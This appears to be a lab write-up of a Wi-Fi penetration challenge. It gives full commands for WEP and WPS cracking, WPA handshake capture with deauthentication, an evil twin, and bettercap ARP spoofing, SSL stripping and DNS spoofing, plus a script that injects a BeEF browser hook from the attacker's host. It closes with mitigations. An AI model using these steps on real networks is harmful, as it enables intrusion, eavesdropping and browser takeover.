


Challenge 01: Compromising Wi-Fi and Internal Network Traffic

## Scenario
A corporate Wi-Fi network is used by employees for internal connectivity. Your task is to assess the security of the wireless network and internal traffic.  
The objective is to determine whether an attacker can gain access using weak encryption or password-guessing techniques, and then intercept internal traffic.

---

## Objective
- Gain unauthorized access to the Wi-Fi network  
- Intercept internal network traffic  
- Demonstrate the impact of weak encryption and poor password policies  

---

## Environment

### Attacker
- OS: Kali Linux
- Wireless Adapter: RTL8812AU (wlan1)
- IP: 192.168.1.144
- MAC Address: 66:16:54:3A:9D:A1

### Target Network
- SSID: autoshop-wifi
- Security: 1) WEP, 2) WPA with WPS PIN enabled
- Gateway: 192.168.1.1
- MAC Address: 00:18:E7:FE:F8:DA

### Victim
- OS: Windows 11
- IP: 192.168.1.61
- MAC Address: 08:00:27:4A:FD:5F
---

## Tools Used
- Aircrack-ng suite
- Wash
- Reaver
- Bettercap
- Wireshark
- Crunch (wordlist generator)

---

## Attack Overview
1. Test legacy and weak encryption vulnerabilities (WEP / WPS 1.0)
2. Dictionary attack (handshake capture + wordlist + cracking)
3. Evil twin (social engineering fallback)
4. Internal network attacks (MITM + manipulation)

---
## Steps to Reproduce

### Phase 1: Legacy & Weak Encryption Testing

#### Step 1: Enable Monitor Mode on Wi-Fi Adapter
1. Disable the wireless interface 
```bash
ifconfig wlan1 down
```
2. Kill network manager processes that may interfere 
```bash
airmon-ng check kill
```
3. Change the interface to monitor mode 
```bash
iwconfig wlan1 mode monitor
```
4. Enable the interface 
```bash
ifconfig wlan1 up
```
5. Verify monitor mode 
```bash
iwconfig
```

#### Step 2: WEP Cracking
1. Capture nearby wireless traffic to identify the target BSSID, channel, and encryption type. If the target network uses WPA instead of WEP, proceed to Step 3: WPS 1.0 Vulnerability
```bash
airodump-ng --band abg wlan1
```
2. Capture packets from the target network and write them to a capture file
```bash
airodump-ng --bssid 00:18:E7:FE:F8:DA --channel 6 --write autoshop-wifi wlan1
```
3. Wait until sufficient data packets (IVs) or at least ~140,000 IVs are collected
- A higher number of unique IVs increases the likelihood of successful key recovery
- On low-traffic networks, IV collection may take longer
If traffic is insufficient, force the access point to generate new IVs.
4. Launch a fake authentication attack from a separate terminal
```bash
aireplay-ng --fakeauth 0 -a 00:18:E7:FE:F8:DA -h 66:16:54:3A:9d:A1 wlan1
```
5. Launch an ARP request replay attack on another separate terminal to accelerate IV generation
```bash
aireplay-ng --arpreplay -b 00:18:E7:FE:F8:DA -h 66:16:54:3A:9d:A1 wlan1
```
6. Navigate to the capture file location and crack the WEP key
```bash
cd /path/to/file
aircrack-ng autoshop-wifi.cap
```
7. Key successfully recovered
[ DE:AD:BE:EF:01 ]
8. Connect to the target network using the recovered key (remove colons)
DEADBEEF01

#### Step 3: WPS 1.0 Vulnerability
1. Identify access points with WPS PIN mode enabled. This attack applies when WPS PIN authentication is enabled and the access point does not enforce PIN lockout.
```bash
wash --interface wlan1
```
2. Launch WPS PIN brute-force attack using Reaver with auto-association disabled
```bash
reaver --bssid 00:18:E7:FE:F8:DA --channel 6 --interface wlan0 -vv --no-nack -t 5 -T 5 -d 0
	# --no-nack helps bypass access points that do not properly respond with NACK packets to speed up the process
	# Timing options are tuned to reduce detection and avoid WPS lockout
```
4. If vulnerable, retrieve the WPA/WPA2 pre-shared key (PSK)

**Purpose:**  
Demonstrate the risk of legacy encryption and outdated Wi-Fi features.

**Expected Outcome:**  
- Access gained quickly if legacy security is enabled  
- If not vulnerable, proceed to Phase 2: Dictionary Attack (WPA/WPA2)

---

### Phase 2: Dictionary Attack (WPA/WPA2)

#### Step 1: Capture WPA/WPA2 Handshake
1.  Run `airodump-ng` on the target BSSID and channel to capture the WPA/WPA2 handshake.
```bash
airodump-ng --bssid 00:18:E7:FE:F8:DA --channel 6 --write autoshop-wifi wlan1
```
2.  Wait for a device to connect to the network to capture the 4-way handshake. If no handshake is captured, you can force a client to reconnect by sending deauthentication packets.
    *   First, identify a connected client from the `airodump-ng` output (e.g., `08:00:27:4A:FD:5F`).
    *   In a new terminal, use `aireplay-ng` to send a burst of deauthentication packets to the client. This will disconnect it from the network, and it should automatically try to reconnect, generating a new handshake.
```bash
aireplay-ng --deauth 4 -a 00:18:E7:FE:F8:DA -c 08:00:27:4A:FD:5F wlan1
```
3.  Once the handshake is captured, `[WPA handshake: 00:18:E7:FE:F8:DA]` will appear at the top right of the `airodump-ng` screen. You can now stop the capture (`CTRL + C`). The handshake will be saved in the `.cap` file (e.g., `autoshop-wifi-01.cap`).

#### Step 2: Prepare a Wordlist
1.  Use Crunch to create a targeted wordlist based on observed patterns. This example generates a 10-character wordlist starting with "dead", followed by four lowercase characters, and ending with two numbers, using a specific character set.
```bash
crunch 10 10 deabf01 -t dead@@@@%% -o wordlist
	# `10 10`: min and max length of the generated words.
	# `deabf01`: the character set `crunch` will use for placeholders (`@`, `%`).
	# `-t dead@@@@%%`: the pattern where `dead` is a fixed string, `@@@@` are characters from the defined set, and `%%` are also characters from the defined set.
	# `-o sample_word_list`: output file name.
```
### Useful Wordlist Resources:
For general-purpose cracking, it's often more effective to use well-known wordlists like `rockyou.txt` or those from collections like SecLists. These can be found at:
*   `/usr/share/wordlists/rockyou.txt.gz` (pre-installed on Kali Linux)
*   [SecLists](https://github.com/danielmiessler/SecLists)
*   [Openwall Project](http://www.openwall.com/mirrors/)
*   [Outpost9](http://www.outpost9.com/files/WordLists.html)
*   [AI UGA FTP](http://www.ai.uga.edu/ftplib/natural-language/moby/)
*   [Wordlist SourceForge](http://wordlist.sourceforge.net/)

#### Step 3: Offline Cracking
Now, use `aircrack-ng` to attempt to crack the captured handshake against your chosen wordlist. This process is done offline and does not generate any network traffic.

1.  Run `aircrack-ng`, specifying the capture file and the wordlist.
```bash
aircrack-ng autoshop-wifi-01.cap -w wordlist
	# `autoshop-wifi-wpa-01.cap`: The capture file containing the handshake.
	# `-w`: Specifies the wordlist file.
```
2.  The cracking process will begin. The time it takes depends on the size of the wordlist and the processing power of your machine. If the correct password is in the wordlist, `aircrack-ng` will display it.

**Purpose:**  
Demonstrate the risk of weak passwords and poor password policies.

**Expected Outcome:**  
- If password is weak and present in the wordlist, the attacker gains the network key.  
- If the password is strong or not in the wordlist, the attack will fail, and the next step is to proceed to Phase 3: Evil Twin Attack.

---

## Phase 3: Evil Twin Attack

### Step 1: Create Rogue Access Point
- Set up a rogue AP using Linux Wifi Hotspot with a convincing SSID as the target on wlan1 interface. e.g., `autoshop-guest` with open no password.
  
  

### Step 2: Wait Victim to Connect
**Note:** To run the deauthentication attack while simultaneously hosting an Access Point, it is highly recommended to use a *separate* Wi-Fi adapter (`wlan2` in this example) for the deauthentication, as a single adapter cannot be in both AP and monitor mode at the same time.
1. Launch deauth to the victim to keep disconnecting the victim from legit network.
```bash
aireplay-ng --deauth 4 -a 00:18:E7:FE:F8:DA -c 08:00:27:4A:FD:5F wlan2
```
2. Once victim connected, can proceed with internal network attack (MITM).

**Purpose:**  
Demonstrate the effectiveness of social engineering when encryption and passwords are strong.

**Expected Outcome:**  
- Victim connects to rogue AP
- Attacker gains network access

---

## Phase 4: Internal Network Attacks

Once you have gained access to the network (either via a cracked password or an Evil Twin attack), you can perform Man-in-the-Middle (MITM) attacks to intercept and manipulate traffic. The following steps will use `bettercap`.
**Important:** If you gained access using the **Evil Twin** method, your machine is already the gateway for the victim. You do **not** need to perform ARP spoofing. You can skip directly to other `bettercap` modules like `net.sniff`.

### Step 1: ARP Spoofing (MITM)
This step is necessary if you connected to the legitimate Wi-Fi network using a cracked password. The goal is to trick the victim and the router into thinking your machine is the router, redirecting all traffic through you.
1.  First, you must configure your attacker machine to forward packets. This allows traffic from the victim to flow *through* your machine to the legitimate gateway, maintaining their internet connection and keeping the attack transparent.
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```
2.  Start `bettercap`, pointing it to the network interface that is connected to the target Wi-Fi network (e.g., `wlan0`).
```bash
bettercap -iface wlan0
```
*From here, all commands are run inside the `bettercap` interactive prompt.*
 
3.  Use the `net.probe` module to actively send probe packets and discover all hosts on the network.
```bash
net.probe on
```
Wait a few moments for hosts to be discovered, then view the list of discovered hosts.
```bash
net.show
```
*Identify the IP address of your victim (e.g., `192.168.1.61`) and the gateway (e.g., `192.168.1.1`).*

4.  Now, configure the `arp.spoof` module to target the victim.
```bash
# Set the target(s) for the ARP spoofing attack.
set arp.spoof.targets 192.168.1.61

# Set to 'true' to spoof both the target and the gateway. This is essential for a full MITM.
set arp.spoof.fullduplex true

# Start the ARP spoofer.
arp.spoof on
```
    *At this point, `bettercap` is poisoning the ARP cache of both the victim and the gateway. All traffic between them is now being redirected through your machine.*

5.  To speed up the process, you can save `bettercap` commands into a script file called a caplet (`.cap`). This lets you launch the attack with one command (optional).

    1.  **Create the `spoof.cap` file:** Create a text file named `spoof.cap` with the following content.

        ```bash
        # File: spoof.cap

        # Discover hosts on the network.
        net.probe on

        # Set the ARP spoofer to be full-duplex.
        set arp.spoof.fullduplex true

        # Set the victim's IP address.
        set arp.spoof.targets 192.168.1.61

        # Turn on ARP spoofing.
        arp.spoof on
        ```

    2.  **Execute the Caplet:** Run `bettercap` with the `-caplet` flag.

        ```bash
        sudo bettercap -iface wlan0 -caplet spoof.cap
        ```
7. Verify module running state
```bash
help
```
6.  To see the intercepted traffic in real-time, enable the built-in sniffer. This will display non-encrypted traffic like HTTP URLs.
```bash
net.sniff on
```
You can also verify the attack is working by opening Wireshark and listening on your `wlan1` interface. You will see traffic flowing from the victim's IP address.


### Step 2: SSL Stripping 

This attack attempts to downgrade a victim's secure HTTPS connections to insecure HTTP, allowing traffic to be read in plaintext.

1.  Enable the HTTP Proxy and SSLStrip. These commands tell `bettercap` to intercept HTTP/S traffic and attempt the downgrade.
```bash
# Enable the HTTP proxy module
http.proxy on
    
# Enable the sslstrip feature
set http.proxy.sslstrip true
```
2.  This method will **not** work for websites that use HSTS (HTTP Strict Transport Security). HSTS is a mechanism that forces browsers to connect using only secure HTTPS.
    
    *   **Alternative:** For bypassing HSTS, a more advanced attack using the `hstshijack` caplet is required.

### Step 3: DNS Spoofing 
DNS spoofing (or poisoning) tricks a victim's computer into associating a legitimate domain name with a malicious IP address controlled by the attacker.
1.  Configure the DNS Spoofing Module. In your `bettercap` session, set the domains you want to spoof and the IP address you want to redirect them to.
```bash
# Set the domains to target. Use '*' for all domains.
set dns.spoof.domains vulnweb.com

# Set the IP address to redirect to (e.g., your attacker machine's IP).
set dns.spoof.address 192.168.1.144

# Apply to all hosts bettercap has discovered.
set dns.spoof.all true
```

2.  Turn on the `dns.spoof` module to begin the attack.
```bash
dns.spoof on
```
    *Now, when the victim tries to visit `vulnweb.com`, they will be sent to the IP you specified instead of the real server.*

### Step 4: Malicious Code Injection (BeEF)
This advanced attack injects a JavaScript "hook" into the victim's browser as they visit HTTP websites. This hook connects the browser to the Browser Exploitation Framework (BeEF), giving the attacker control.
1.  Start the BeEF Framework. In a **new terminal**, launch BeEF. It will start a web server and provide you with a UI link and a hook URL.
```bash
beef-xss
```
*Take note of the hook URL, which typically looks like `http://<YOUR-IP>:3000/hook.js`.*

2.  Create a Custom Injection File. `bettercap` can use a JavaScript file to perform the injection. Create a file named `inject_beef.js` and add the following line, replacing the IP address with your attacker machine's IP.

```javascript
var imported = document.createElement('script');
imported.src = 'http://192.168.1.144:3000/hook.js';
document.head.appendChild(imported);
```

3.  In your `bettercap` session, point the HTTP proxy to your custom script and turn it on.
```bash
# Set the proxy to use your injection script. Use the full path.
set http.proxy.script /path/to/your/inject_beef.js

# Turn on the proxy to begin injecting the script.
http.proxy on
```
*When the victim visits any non-HTTPS website, the `hook.js` will be injected. You should see their browser appear as a "hooked browser" in the BeEF web UI.*
---

## Results
- Unauthorized network access achieved (via weak encryption, dictionary attack, or evil twin)
- Internal traffic intercepted successfully
- Sensitive data exposed due to weak security controls
---

## Impact
- Confidential data exposure
- Credential theft risk
- Potential for further internal compromise
- High risk for corporate environments without proper security controls
---

## Mitigation & Defensive Measures

### Network & Server-Side Controls
- **Disable Legacy Protocols:** Immediately disable WEP and WPS on all access points, as they are critically flawed.
- **Use Modern Encryption:** Standardize on WPA3. If not possible, use WPA2-AES with a strong, complex password and an enforced rotation policy.
- **Implement Network Segmentation:** Isolate critical systems on separate network segments or VLANs to limit an attacker's lateral movement after a breach.

### Application & Endpoint Security
- **Enforce End-to-End Encryption:** Use protocols like HTTPS, IMAPS, and SSH for all communication. Enforce this with HTTP Strict Transport Security (HSTS) to prevent SSL stripping attacks.
- **Deploy Endpoint Detection & Response (EDR):** Use EDR solutions to monitor for malicious processes and behaviors (like those from `bettercap` or BeEF) on client machines.

### User Best Practices
- **Use a VPN:** A trusted VPN encrypts all traffic from a device, providing a secure tunnel even on a compromised or untrusted network.
- **Avoid Untrusted Networks:** Be cautious when connecting to public or unknown Wi-fi networks. Verify the network's legitimacy before connecting.
---

## Lessons Learned
- Legacy Wi-Fi features are high risk
- Strong passwords and modern encryption reduce risk
- Social engineering can bypass encryption if users are not cautious
